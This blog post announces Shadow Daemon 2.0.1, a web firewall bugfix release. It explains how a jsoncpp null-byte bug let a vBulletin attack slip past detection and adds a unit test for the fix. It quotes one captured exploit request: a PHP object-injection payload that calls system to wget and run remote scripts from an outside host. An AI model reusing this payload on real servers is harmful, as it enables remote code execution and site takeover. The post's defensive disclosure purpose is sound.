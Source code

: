 +++
title = "Release of shadowd 2.0.1"
description = ""
tags = [
    "release",
    "shadowd",
    "bugfix",
]
date = "2016-03-06"
categories = [
    "Development",
    "Shadow Daemon",
]
menu = "main"
+++

**TL;DR:** There was a bug in the library *jsoncpp* regarding null-bytes. It was fixed a year ago, but most packet managers still ship affected versions. If a vulnerable version of the library is used it is possible to bypass shadowd 2.0.0 or earlier.

<!--more-->

## Discovery of the bug

I operate a large amount of [honeypots](https://shadowd.zecure.org/tutorials/honeypots/) to observe and study attacks on web applications. Recently I noticed that one of the web applications (vBulletin 5.1.2) was successfully compromised, but strangely enough the attack was not detected by Shadow Daemon. So I started recording everything and a little bit later I saw a request with the following resource.

    /ajax/api/hook/decodeArguments?arguments=O:12:%22vB_dB_Result%22:2:%7Bs:5:%22%00*%00db%22;O:18:%22vB_Database_MySQLi%22:1:%7Bs:9:%22functions%22;a:1:%7Bs:11:%22free_result%22;s:6:%22system%22;%7D%7Ds:12:%22%00*%00recordset%22;s:151:%22wget%20http://augsburg-auto.ru/files/vb.txt;mv%20vb.txt%20simple.php;cd%20/tmp;wget%20http://augsburg-auto.ru/files/SQL.txt;mv%20SQL.txt%20bash;perl%20bash;rm%20-rf%20SQL*%22;%7D

The parameter *arguments* contains a serialized PHP object and an URL, so this should result in a blacklist impact of 6. More than enough to trigger the alarm, but it did not. After looking at the recorded parameters it was pretty obvious why: *arguments* was cut off after the first null-byte (*%00*), so it was incomplete and did not trigger any filters at all.

    O:12:"vB_dB_Result":2:{s:5:" 

This seemed odd to me, considering that shadowd uses *std::string*. Unlike char arrays the C++ standard library strings are not terminated by null-bytes, so this should not have happened. I started debugging shadowd and noticed that strings were cut off by jsoncpp when decoding client input with null-bytes. As a result of that all security checks in shadowd used the incomplete versions, even though they could handle null-bytes perfectly fine themselves.

After some digging I found [this](https://sourceforge.net/p/jsoncpp/patches/18/) ticket in the jsoncpp bug tracker. The problem with null-bytes was already reported and fixed *exactly* a year ago (now that is a nice coincidence). So why was this problem still happening? Because most packet managers install versions of jsoncpp that are much older than a year.

## The bug fix

The new version of shadowd ships with jsoncpp. The source of the library is directly compiled into the binary. This is the only (usable) way to ensure that shadowd is not affected by the problem, because it might take years until most packet managers update their versions of jsoncpp. On a positive note, this means there is one dependency less required to install shadowd.

So make sure to update to shadowd 2.0.1 as fast as possible to apply this patch.

## Precautionary measures

To prevent this problem from happening again (e.g., when updating the json lib) there is a new test case for null-bytes.

    BOOST_AUTO_TEST_CASE(nullbyte_decode) {
        swd::request_ptr request(new swd::request);
        swd::request_handler request_handler(request, swd::cache_ptr(), swd::storage_ptr());

        request->set_content("{\"version\":\"\",\"client_ip\":\"\",\"caller\":\"\","
         "\"resource\":\"foo\\u0000bar\",\"input\":{},\"hashes\":{}}");
        BOOST_CHECK(request_handler.decode() == true);

        std::stringstream expected;
        expected << "foo" << '\0' << "bar";
        BOOST_CHECK(request->get_resource() == expected.str());
    }

## Lessons learned

The lesson I learned (again) today is to not trust anyone or anything. Even though shadowd could handle null-bytes fine, one of its dependencies could not. The same could be true for web applications you are developing or using yourself. Even if the actual code of the application does not contain bugs, are you certain that there are no bugs in the dozens of libraries the application is using? So better be prepared and protect your applications!
